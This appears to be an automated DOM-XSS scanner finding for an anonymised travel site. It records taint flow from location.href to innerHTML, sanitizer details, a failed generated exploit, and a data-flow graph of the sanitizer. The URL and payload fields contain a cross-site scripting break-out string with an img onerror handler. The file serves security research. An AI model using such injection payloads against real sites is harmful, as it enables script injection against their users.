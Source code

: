 // Finding: 4675229b-9ed2-497a-a88d-f63ae52ccc6e
// Finding.url: https://www.example337.com/travel/execenrol/public/en_us?source=MNVEXC1join_the_executive_club&campaignCode=HOME01%22/iframe/style/script/object/embed/textareaimg%20src=x%20onerror=taintfoxLog(%27d2cd103430a74af48afc0e416f63d523%27)!--/
// Finding.parentloc: https://www.example337.com/travel/execenrol/public/en_us?source=MNVEXC1join_the_executive_club&campaignCode=HOME01%22/iframe/style/script/object/embed/textareaimg%20src=x%20onerror=taintfoxLog(%27d2cd103430a74af48afc0e416f63d523%27)!--/
// Finding.domain: www.example337.com
// Finding.base_domain: example337.com
// Finding.source: location.href
// Finding.sink: innerHTML
// Sanitizer.score: 22
// Sanitizer.name: vsSplitParameters
// Sanitizer.location: https://www.example337.com/cms/global/scripts/applications/tracking/rwdAdobeInsights.js?v=2 - vsDoTracking:109:7
// Finding.begin: 1296
// Finding.end: 1326
// Finding.original_uuid: 0b4eed13-c232-425e-ac38-2457ac1ed5f1
// Finding.TwentyFiveMillionFlowsId: -2030069909
// Finding.script: https://www.example337.com/cms/global/ensighten/Bootstrap.js
// Finding.line: 867
// Exploit.uuid: d2cd1034-30a7-4af4-8afc-0e416f63d523
// Exploit.success: false
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: attribute
// Exploit.content: src
// Exploit.quote_type: "
// Exploit.tag: img
// Exploit.break_out: HOME01"></iframe></style></script></object></embed></textarea><img src=x onerror=
// Exploit.break_in: ><!--/*
// Exploit.payload: HOME01"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog(1)><!--/*
// Exploit.begin_taint_url: 112
// Exploit.end_taint_url: 118
// Exploit.replace_begin_url: 112
// Exploit.replace_end_url: 118
// Exploit.replace_begin_param: 1338
// Exploit.replace_end_param: 1344
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: false
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: 597221711
// DepGraph.sanitizer_hash: -1595377865

digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="substr"];
n2 [shape=box, label="Var: x"];
n3 [shape=box, label="Lit: 61"];
n4 [shape=box, label="Lit: 179"];
n5 [shape=ellipse, label="split"];
n6 [shape=box, label="Lit: &"];
n7 [shape=box, label="Var: x"];
n8 [shape=ellipse, label="split"];
n9 [shape=box, label="Lit: ="];
n10 [shape=box, label="Var: x"];
n11 [shape=ellipse, label="decodeURIComponent"];
n12 [shape=box, label="Var: x"];
n13 [shape=ellipse, label="preg_replace"];
n14 [shape=box, label="RegExp: /[^a-zA-Z0-9_\-\|.]+/"];
n15 [shape=box, label="Lit: "];
n16 [shape=box, label="Var: x"];
n17 [shape=box, label="Var: x"];
n18 [shape=doubleoctagon, label="Return: x"];
n2 -> n0;
n1 -> n2;
n1 -> n3;
n1 -> n4;
n7 -> n1;
n5 -> n6;
n5 -> n7;
n10 -> n5;
n8 -> n9;
n8 -> n10;
n12 -> n8;
n11 -> n12;
n16 -> n11;
n13 -> n14;
n13 -> n15;
n13 -> n16;
n17 -> n13;
n18 -> n17;
}